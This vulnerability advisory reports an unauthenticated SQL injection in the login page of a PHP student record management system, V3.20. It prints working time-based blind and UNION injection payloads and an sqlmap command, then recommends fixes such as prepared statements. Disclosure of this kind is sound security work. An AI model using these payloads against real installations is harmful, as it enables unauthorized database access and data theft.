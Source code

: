 # Students Record Management Project in PHP V 3.20/login.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Students Record Management Project in PHP
## Vendor Homepage

- https://phpgurukul.com/student-record-system-php/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- Doracat

## Vulnerable File

- /login.php

## VERSION(S)

- V3.20

## Software Link

- https://github.com/Doramer/doramer.github.io/raw/refs/heads/main/Student-Record-Management-System-PHP.zip

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was discovered in the 'login' section. The reason for this issue in the 'Students Record Management Project in PHP' is that attackers inject malicious code from the parameter 'id' and use it directly in SQL queries without proper cleaning or validation. This allows attackers to forge input values, manipulate SQL queries, and insert and execute unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of the 'Students Record Management Project in PHP', I discovered a critical SQL injection vulnerability in the 'login' process. This vulnerability arises from insufficient user input validation of the 'id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can access databases, modify or delete data, and access sensitive information without authorization. Immediate remedial measures need to be taken to ensure system security and protect data integrity

# To exploit this vulnerability, no login or authorization is required

# Vulnerability details and POC

## Vulnerability lonameion:

- 'id' parameter

## Payload:

```makefile
Parameter: id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=ad' AND (SELECT 4658 FROM (SELECT(SLEEP(5)))IxsU) AND 'BCvu'='BCvu&password=123456&submit=login

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=ad' UNION ALL SELECT 55,CONCAT(0x716b627671,0x424643495050664e794c4b6f6b7177676458486c584945706e4e7a6c597879646766556477697775,0x71716a7a71)-- -&password=123456&submit=login
```

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```bash
python3 sqlmap.py -u "http://127.0.0.1/Student-Record-Management-System-PHP/login.php" --data="id=ad&password=123456&submit=login" -p id --batch --current-db
```

![image-20250520182236491](images\image-20250520182236491.png)

# Suggested repair

1. **Use prepared statements and parameter binding:**
   Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. **Input validation and filtering:**
   Strictly validate and filter user input data to ensure it conforms to the expected format.

3. **Minimize database user permissions:**
   Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:**
   Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.